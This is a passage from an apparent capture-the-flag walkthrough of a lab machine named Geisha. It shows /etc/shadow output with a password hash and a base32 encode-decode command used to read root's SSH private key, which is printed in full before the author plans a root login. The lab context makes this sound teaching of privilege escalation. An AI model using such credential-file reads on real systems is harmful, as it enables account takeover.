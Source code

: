 ```bash
systemd-timesync:*:18385:0:99999:7:::
systemd-network:*:18385:0:99999:7:::
systemd-resolve:*:18385:0:99999:7:::
messagebus:*:18385:0:99999:7:::
sshd:*:18385:0:99999:7:::
geisha:$6$YtDFbbhHHf5Ag5ej$3EjLFKW1aSNBlfAhcyjmY97eLrNtbzDWQ9z5YvSvuA65kH7ZgHR1f9VGFhAEGGqiKAtF8//U45M8QOHouQrWb.:18494:0:99999:7:::
systemd-coredump:!!:18385::::::
ftp:*:18391:0:99999:7:::
geisha@geisha:~$
```

That seem's to work. We were able to read `/etc/passwd` file, I tried to crack the `root hash` but it was non-crackable. So moving forward let's find out whether we could read root user's ssh private key.

```bash
geisha@geisha:~$ base32 "/root/.ssh/id_rsa" | base32 --decode
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA43eVw/8oSsnOSPCSyhVEnt01fIwy1YZUpEMPQ8pPkwX5uPh4
OZXrITY3JqYSCFcgJS34/TQkKLp7iG2WGmnno/Op4GchXEdSklwoGOKNA22l7pX5
89FAL1XSEBCtzlrCrksvfX08+y7tS/I8s41w4aC1TDd5o8c1Kx5lfwl7qw0ZMlbd
5yeAUhuxuvxo/KFqiUUfpcpoBf3oT2K97/bZr059VU8T4wd5LkCzKEKmK5ebWIB6
fgIfxyhEm/o3dl1lhegTtzC6PtlhuT7ty//mqEeMuipwH3ln61fHXs72LI/vTx26
TSSmzHo8zZt+/lwrgroh0ByXbCtDaZjo4HAFfQIDAQABAoIBAQCRXy/b3wpFIcww
WW+2rvj3/q/cNU2XoQ4fHKx4yqcocz0xtbpAM0veIeQFU0VbBzOID2V9jQE+9k9U
1ZSEtQJRibwbqk1ryDlBSJxnqwIsGrtdS4Q/CpBWsCZcFgy+QMsC0RI8xPlgHpGR
Y/LfXZmy2R6E4z9eKEYWlIqRMeJTYgqsP6ZR4SOLuZS1Aq/lq/v9jqGs/SQenjRb
8zt1BoqCfOp5TtY1NoBLqaPwmDt8+rlQt1IM+2aYmxdUkLFTcMpCGMADggggtnR+
10pZkA6wM8/FlxyAFcNwt+H3xu5VKuQKdqTfh1EuO3c34UmuS1qnidHO1rYWOhYO
jceQYzoBAoGBAP/Ml6cp2OWqrheJS9Pgnvz82n+s9yM5raKNnH57j0sbEp++eG7o
2po5/vrLBcCHGqZ7+RNFXDmRBEMToru/m2RikSVYk8QHLxVZJt5iB3tcxmglGJj/
cLkGM71JqjHX/edwu2nNu14m4l1JV9LGvvHR5m6uU5cQvdcMTsRpkuxdAoGBAOOl
THxiQ6R6HkOt9w/WrKDIeGskIXj/P/79aB/2p17M6K+cy75OOYzqkDPENrxK8bub
RaTzq4Zl2pAqxvsv/CHuJU/xHs9T3Ox7A1hWqnOOk2f0KBmhQTYBs2OKqXXZotHH
xvkOgc0fqRm1QYlCK2lyBBM14O5Isud1ZZXLUOuhAoGBAIBds1z36xiV5nd5NsxE
1IQwf5XCvuK2dyQz3Gy8pNQT6eywMM+3mrv6jrJcX66WHhGd9QhurjFVTMY8fFWr
edeOfzg2kzC0SjR0YMUIfKizjf2FYCqnRXIUYrKC3R3WPlx+fg5CZ9x/tukJfUEQ
65F+vBye7uPISvw3+O8n68shAoGABXMyppOvrONjkBk9Hfr0vRCvmVkPGBd8T71/
XayJC0L6myG02wSCajY/Z43eBZoBuY0ZGL7gr2IG3oa3ptHaRnGuIQDTzQDj/CFh
zh6dDBEwxD9bKmnq5sEZq1tpfTHNrRoMUHAheWi1orDtNb0Izwh0woT6spm49sOf
v/tTH6ECgYEA/tBeKSVGm0UxGrjpQmhW/9Po62JNz6ZBaTELm3paaxqGtA+0HD0M
OuzD6TBG6zBF6jW8VLQfiQzIMEUcGa8iJXhI6bemiX6Te1PWC8NMMULhCjObMjCv
bf+qz0sVYfPb95SQb4vvFjp5XDVdAdtQov7s7XmHyJbZ48r8ISHm98s=
-----END RSA PRIVATE KEY-----

geisha@geisha:~$
```

Yes, we could also read ssh key. Let's use this to login as root.
For that, let's save the private ssh key into `root.key` and change the permission of the file to `read and write`
